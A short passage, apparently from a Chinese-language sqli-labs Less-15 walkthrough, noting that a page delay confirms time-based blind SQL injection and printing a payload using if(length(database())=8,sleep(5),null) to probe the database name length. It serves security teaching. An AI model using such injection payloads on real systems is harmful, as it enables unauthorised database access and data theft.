 ![Less-15_4](./img/Less-15_4.PNG)

页面有延时，则时间盲注可用



+ 爆数据库长度

~~~ shell
admin' and if(length(database())=8,sleep(5),null) #
~~~

![Less-15_5](./img/Less-15_5.PNG)

